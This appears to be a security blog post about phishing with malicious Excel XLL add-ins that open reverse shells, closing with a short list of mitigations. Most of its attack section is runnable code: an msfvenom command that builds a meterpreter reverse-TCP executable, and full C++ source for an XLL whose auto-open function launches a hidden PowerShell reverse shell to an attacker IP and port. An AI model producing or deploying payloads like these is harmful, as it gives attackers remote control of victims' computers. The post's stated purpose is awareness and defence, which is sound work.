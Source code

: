```yaml
---
title: "
The Dangers of Spreadsheets and XLL Files Containing Reverse Shells"
date: 2023-04-02 13:12:21
categories: [XLL, phishing]
tags: [revshell, XLL, phising, excel]
---
```


In today's world, cybersecurity is a constant concern for businesses and individuals alike. A recent and dangerous technique involves using spreadsheets and XLL files to inject reverse shells into systems, compromising their security. This article explores the dangers associated with these files and how they can be used by attackers to gain remote control over systems.

#### What Are XLL Files? 

XLL files are add-ins for Microsoft Excel that function similarly to DLL files. They allow custom functions to be executed within Excel, extending its capabilities. However, this same functionality can be exploited maliciously.

#### Exploitation Example: Analysis of a Malicious File 
Recently, a malicious XLL file was analyzed on VirusTotal, a popular malware analysis tool. The file in question, identified by the hash `2b71333124cd4296df694f54203e5b8c9022ba6874a2e7f630310adde7ffba80`, demonstrated how an XLL file can be used to compromise systems.**Link to full analysis** : [VirusTotal Analysis](https://www.virustotal.com/gui/file/2b71333124cd4296df694f54203e5b8c9022ba6874a2e7f630310adde7ffba80?nocache=1) 
#### How Reverse Shell Exploitation Works 

A reverse shell is a network connection where the target connects back to the attacker, allowing the attacker to gain remote control over the compromised system. Let's understand how this can be done using XLL files.

### Creating a Malicious Payload 
Using tools like `msfvenom`, an attacker can create a payload that, when executed, opens a reverse connection:

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.7 LPORT=4446 -f exe -o standalonerunner.exe
```
 
- **`-p windows/x64/meterpreter/reverse_tcp`** : Specifies the payload for Windows 64-bit.
 
- **`LHOST=10.10.14.7`** : Sets the attacker's IP address.
 
- **`LPORT=4446`** : Sets the port used for the reverse connection.
 
- **`-f exe`** : Specifies that the payload format will be a Windows executable.
 
- **`-o standalonerunner.exe`** : Sets the name of the output file.

### Creating a Malicious XLL File 

Below is an example of C++ code that can be compiled into a malicious XLL file to execute the payload:


```cpp
#include <windows.h>
#include <stdio.h>

__declspec(dllexport) void __cdecl xlAutoOpen(void);

void __cdecl xlAutoOpen() {
    const char* command = "powershell -nop -W hidden -noni -ep bypass -c \"$client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',4446);";
    const char* command2 = "$stream = $client.GetStream();[byte[]]$buffer = 0..65535|%{0};";
    const char* command3 = "while(($i = $stream.Read($buffer, 0, $buffer.Length)) -ne 0){";
    const char* command4 = "$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($buffer, 0, $i);";
    const char* command5 = "if ($data.Trim().Length -gt 0) {";
    const char* command6 = "$sendback = (iex $data 2>&1 | Out-String );";
    const char* command7 = "$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';";
    const char* command8 = "$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);";
    const char* command9 = "$stream.Write($sendbyte, 0, $sendbyte.Length);";
    const char* command10 = "$stream.Flush()}};$client.Close()\"";

    char full_command[2048];
    snprintf(full_command, sizeof(full_command), "%s%s%s%s%s%s%s%s%s%s", command, command2, command3, command4, command5, command6, command7, command8, command9, command10);
    WinExec(full_command, 1);
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD  ul_reason_for_call,
    LPVOID lpReserved
) {
    switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

### Distribution via Phishing 

Once the malicious XLL file is created, it can be distributed through phishing campaigns. The attacker sends an email with a link or attachment containing the XLL file. When the victim opens the file in Excel, the payload is executed and the reverse connection is established.

### Mitigation and Detection 

To protect against this type of attack, it is essential to implement multiple layers of security:
 
1. **Education and Training** :
  - Train employees to recognize and avoid phishing emails.
 
2. **Antivirus and Antimalware** :
  - Use up-to-date security software that can detect and block malicious files.
 
3. **Excel Security Settings** :
  - Configure Excel to alert or block the opening of XLL files from untrusted sources.
 
4. **Network Monitoring** :
  - Implement network monitoring tools to detect suspicious activities, such as unexpected reverse connections.
 
5. **Script Execution Policies** :
  - Restrict script and macro execution in environments where they are not needed.

### Conclusion 

Exploitation through spreadsheets and XLL files containing reverse shells is a sophisticated and dangerous technique. Understanding these methods and implementing appropriate security measures can significantly reduce the risk of system compromise.

Share this article to help raise awareness about these dangers and stay informed about best security practices to protect your organization against emerging threats.